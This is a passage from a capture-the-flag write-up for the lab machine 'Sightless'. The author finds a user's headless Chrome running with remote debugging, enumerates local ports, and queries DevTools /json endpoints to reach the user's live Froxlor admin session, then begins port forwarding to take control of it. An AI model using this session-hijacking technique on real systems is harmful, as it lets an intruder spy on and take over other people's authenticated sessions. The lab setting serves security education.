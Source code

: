 ```terminal
/opt/google/chrome/chrome --allow-pre-commit-input --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-dev-shm-usage --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-logging --headless --log-level=0 --no-first-run --no-sandbox --no-service-autorun --password-store=basic --remote-debugging-port=0 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.org.chromium.Chromium.3xsGRc data:, 
[...]
/bin/bash /home/john/automation/healthcheck.sh
sleep 60
```
As you can see john is running google-chrome with remote debugging enabled ! This is great because it allows us to interact with his session and see what he is doing. `--remote-debugging-port=0` means that chrome will use a random port, so first we need to find out which port is used. I'll list all open ports, and as explained in [this post](https://stackoverflow.com/questions/52783655/use-curl-with-chrome-remote-debugging), if I curl `json` it should return me output.
```terminal
michael@sightless:~$ ss -tuln |awk '{print $1, $5}'
Netid Local
udp 127.0.0.53%lo:53
udp 0.0.0.0:68
tcp 127.0.0.53%lo:53
tcp 0.0.0.0:80
tcp 127.0.0.1:8080
tcp 0.0.0.0:22
tcp 127.0.0.1:3306
tcp 127.0.0.1:46013
tcp 127.0.0.1:3000
tcp 127.0.0.1:37871
tcp 127.0.0.1:38983
tcp 127.0.0.1:33060
tcp *:21
tcp [::]:22
michael@sightless:~$ curl http://127.0.0.1:46013/json
404: Page Not Found
michael@sightless:~$ curl http://127.0.0.1:37871/json
{"value":{"error":"unknown command","message":"unknown command: unknown command: json","stacktrace":"#0 0x559635347e43 \u003Cunknown>\n#1 0x5596350364e7 \u003Cunknown>\n#2 0x55963509d6b2 \u003Cunknown>\n#3 0x55963509d18f \u003Cunknown>\n#4 0x559635002a18 \u003Cunknown>\n#5 0x55963530c16b \u003Cunknown>\n#6 0x5596353100bb \u003Cunknown>\n#7 0x5596352f8281 \u003Cunknown>\n#8 0x559635310c22 \u003Cunknown>\n#9 0x5596352dd13f \u003Cunknown>\n#10 0x559635001027 \u003Cunknown>\n#11 0x7fa41f046d90 \u003Cunknown>\n"}}
michael@sightless:~$ curl http://127.0.0.1:38983/json
[ {
   "description": "",
   "devtoolsFrontendUrl": "/devtools/inspector.html?ws=127.0.0.1:38983/devtools/page/808BE4E06885A551AAB634E133D0410F",
   "id": "808BE4E06885A551AAB634E133D0410F",
   "title": "Froxlor",
   "type": "page",
   "url": "http://admin.sightless.htb:8080/index.php",
   "webSocketDebuggerUrl": "ws://127.0.0.1:38983/devtools/page/808BE4E06885A551AAB634E133D0410F"
} ]
```
Ports 46013 and 37871 returned some strange stuff, however 38983 returned the expected json ! We can interact with this chrome session by many different ways, one of which is the chrome developper tools. To find out what I could do with this remote debugging chrome browser that john runs, I used a lot of google and found [this tutorial](https://developer.chrome.com/docs/devtools/remote-debugging/local-server). 
I can actually have access to his browser in real time ! A lot of steps are incoming, so don't worry if it's not quite clear I'll sum it up at the end.
I'll install chrome on my machine first. Then, I need to be able to access the port 37871, which for now is only accessible from the machine sightless.htb. To get access to it, I'll use ssh to forward the port :